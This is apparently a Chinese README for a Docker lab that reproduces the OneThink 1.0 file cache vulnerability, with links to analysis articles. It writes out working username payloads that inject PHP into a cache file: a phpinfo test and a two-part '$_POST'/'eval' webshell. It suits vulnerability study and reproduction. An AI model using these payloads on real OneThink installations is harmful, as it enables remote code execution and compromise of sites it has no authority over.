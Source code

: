## 启动环境

```
docker-compose build
docker-compose up -d
```


## 0x01 OneThink1.0文件缓存漏洞

在OneThink的注册页面中的注册用户名为:

```
%0aphpinfo();#
```

，并且用burp抓包将%0a解码


![](README/luffy1%202.png)

![](README/luffy2%202.png)

![](README/luffy3%202.png)

![](README/luffy4%202.png)

之后用这个用户名登陆，同样抓包将%0a解码，之后访问Runtime/Temp目录下的2bb202459c30a1628513f40ab22fa01a.php，此文件是写死的，所以不怕找不到文件。即可发现phpinfo得以执行

![](README/luffy5%202.png)


GETSHELL

分别用两个用户名去注册转码登录
```
%0a$a=$_POST[a];#
%0aeval($a);#
```


之后文件的内容就变成了
![](README/luffy8.png)


![](README/luffy9.png)




[OneThink CMS的缓存漏洞的分析](https://ox1234.github.io/2018/07/27/OneThink%20CMS%E7%9A%84%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%86%E6%9E%90/)

[OneThink1.0文件缓存漏洞分析及题目复现](https://www.anquanke.com/post/id/152584)


